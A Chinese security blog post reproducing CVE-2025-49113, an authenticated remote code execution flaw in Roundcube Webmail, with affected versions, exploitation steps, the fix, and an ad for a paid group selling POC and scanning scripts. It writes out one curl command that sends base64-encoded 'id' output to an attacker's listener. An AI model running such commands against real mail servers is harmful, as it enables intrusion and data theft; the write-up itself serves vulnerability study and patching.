 #  Roundcube Mail后台代码执行漏洞复现（CVE-2025-49113）及POC  
原创 a1batr0ss  天翁安全   2025-06-09 01:00  
  
**免责声明：**  
本公众号所发布的全部内容，包括但不限于技术文章、POC脚本、漏洞利用工具及相关测试环境，均仅限于合法的网络安全学习、研究和教学用途。所有人在使用上述内容时，应严格遵守中华人民共和国相关法律法规以及道德伦理要求。未经明确的官方书面授权，严禁将公众号内的任何内容用于未经授权的渗透测试、漏洞利用或攻击行为。 所有人仅可在自己合法拥有或管理的系统环境中进行本地漏洞复现与安全测试，或用于具有明确授权的合法渗透测试项目。所有人不得以任何形式利用公众号内提供的内容从事非法、侵权或其他不当活动。 如因违反上述规定或不当使用本公众号提供的任何内容，造成的一切法律责任、经济损失、纠纷及其他任何形式的不利后果，均由相关成员自行承担，与本公众号无任何关联。  
## 漏洞介绍  
  
Roundcube Webmail 是一个基于浏览器的开源电子邮件客户端，采用 PHP 编写，支持 IMAP 协议，界面现代、用户友好，功能包括邮件收发、地址簿管理、邮件搜索、HTML 邮件编辑等。它具有插件扩展能力，易于部署和定制，广泛应用于企业或个人邮件系统的前端界面。由于其开放源代码和活跃社区，Roundcube 成为了最受欢迎的 Webmail 解决方案之一。  
  
Roundcube Webmail 在 1.5.10 之前的版本以及 1.6.x 中 1.6.11 之前的版本，存在远程代码执行漏洞。该漏洞允许经过身份验证的用户发起攻击，原因是在 program/actions/settings/upload.php  
 文件中，URL 中的 _from  
 参数未被正确验证，从而导致了 PHP 对象反序列化漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4GX6p5Uo3WJGTJGPqhFUjbuoPOYDr2EHkb8I25wicFmMgUd2wbEvsj3tWnD5HSrSWhCDFicBDiaIU5w/640?wx_fmt=png&from=appmsg "")  
## 漏洞版本  
- Roundcube Webmail <1.5.10  
  
- Roundcube Webmail <1.6.11  
  
## 漏洞利用  
  
首先在攻击机上开启一个http服务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4GX6p5Uo3WJGTJGPqhFUjbVQTDPhDRic4w3xsajKwicC9JQ3oGKFsn2Pe4QVsPqe3ALXrUXDXrZXRg/640?wx_fmt=png&from=appmsg "")  
  
  
接着在攻击机执行POC  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4GX6p5Uo3WJGTJGPqhFUjbxRiabBfN4P37mxM2X4laOaq56hDHFoCgUCp6h2WHFQWpO7iakQdIFicgw/640?wx_fmt=png&from=appmsg "")  
- https://192.168.1.157/mail  
：目标Roundcube Mail地址  
  
- postmaster@linux.com  
：目标Roundcube Mail用户名  
  
- 123456  
：目标Roundcube Mail密码  
  
- 'curl http://192.168.1.164:9000/$(id | base64 -w0)'  
：执行的命令（无回显）  
  
执行成功之后，我们发现刚才开启的http服务已经有了回显  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4GX6p5Uo3WJGTJGPqhFUjbZVwyYBscB0mML2Sbm5ibszPuesicajqoqWmy4Hbjl12ib7tqebcRF5CBw/640?wx_fmt=png&from=appmsg "")  
  
base64解密一下获取命令回显。至此，命令执行成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4GX6p5Uo3WJGTJGPqhFUjbWpP61n3BJkGZkQHWPoFwVqfppSRZcqcmzVCY35luM7tkO5ZmnSXNxg/640?wx_fmt=png&from=appmsg "")  
## 漏洞修复  
  
新版本新增了对 _from  
参数的过滤，将其限制为简单字符串  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4GX6p5Uo3WJGTJGPqhFUjb9SOhw2mK71ogricWG6PF6NhQ1fTHtrSUesg4rSglAJ3oyo1UU82iaF8w/640?wx_fmt=png&from=appmsg "")  
  
修复将版本升级  
- Roundcube Webmail >= 1.5.10  
  
- Roundcube Webmail >= 1.6.11  
  
## 知识星球  
  
**漏洞利用POC和批量检查脚本**  
可在知识星球内自行领取  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4GX6p5Uo3WJGTJGPqhFUjbfZUvvug4dpiaPKCicJQfEeuozibr2G4TWBIRN0VVlDg5E5jytqhZNibuHQ/640?wx_fmt=png&from=appmsg "")  
> 星球不定期更新市面上最新的热点漏洞及复现环境，欢迎加入交流和学习  
  
  
亮点一、**市面热点漏洞详细分析**  
，与**deepseek本地部署**  
息息相关的：Ollama任意文件读取漏洞（CVE-2024-37032）详细分析  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4GX6p5Uo3WJGTJGPqhFUjbGTXDriaGIBUzFDTZex01C70HwbbETXOco5LiakibHNBHiarOhjKRWsBbYw/640?wx_fmt=png&from=appmsg "")  
  
亮点二、**近日最新披露**  
漏洞：Erlang/OTP SSH 远程代码执行漏洞（CVE-2025-32433）POC及一键部署环境  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4GX6p5Uo3WJGTJGPqhFUjbfoFtvzOY6sYxXXkRw3tdzzicYaWEIV3krS7XRQfSDYAB1lBbjSZQwmA/640?wx_fmt=png&from=appmsg "")  
  
以及有师傅对该POC提出疑问后也会进行解答：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4GX6p5Uo3WJGTJGPqhFUjbZvrA5vsOcOHfGPqF22jEDyyMOqX1FlysFbSmIQs1zW6Dha6FUvXkPg/640?wx_fmt=png&from=appmsg "")  
  
亮点三、**框架漏洞专题-若依：**  
  
若依某漏洞分析：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4GX6p5Uo3WJGTJGPqhFUjb2lpIZQbB37XCTRd2aiaziaScz5ibpibdUHb0RCghBjKCF4AjcKzAR75Kxg/640?wx_fmt=png&from=appmsg "")  
  
以及帮助师傅们轻松搭建若依环境的docker的tar包：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4GX6p5Uo3WJGTJGPqhFUjb0jhpQRb81hOtYITxkdnoS7qASSiazFibGZUf2Tf77zAmiaz9Hmq3cyNMw/640?wx_fmt=png&from=appmsg "")  
  
亮点四、**实战渗透测试技巧分享&讨论**  
：记一次信息泄漏到数据库接管的渗透测试  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4GX6p5Uo3WJGTJGPqhFUjbdRJubrMzINxtxMAR9IibMtfJ9rett2FxluImY2u7kQG0gEjq4nU7nkw/640?wx_fmt=png&from=appmsg "")  
  
某次若依系统渗透测试带来的思考与讨论  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4GX6p5Uo3WJGTJGPqhFUjbMqLr2skCzDl1Y72Xaza2Z8AbttZoicIy3Sylqq4soSFdhohMDWy7usA/640?wx_fmt=png&from=appmsg "")  
  
亮点五、一些比较新奇有趣的漏洞分享：Windows**拖拽图标**  
而触发的漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4GX6p5Uo3WJGTJGPqhFUjbwiahTXHeQqfO2GNDJs0F3dKb4sAyRUNiaWLicMw0UImia6ibP2fW3BSFkwg/640?wx_fmt=png&from=appmsg "")  
  
知识星球加入方式如下，欢迎师傅们加入进行学习和讨论！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4GX6p5Uo3WJGTJGPqhFUjbl5mBrRQg99FsT3rbt5LLxEWjHUPHJJ1LLVJqTas1VgSjCkS6BYX3cQ/640?wx_fmt=png&from=appmsg "")  
  
  

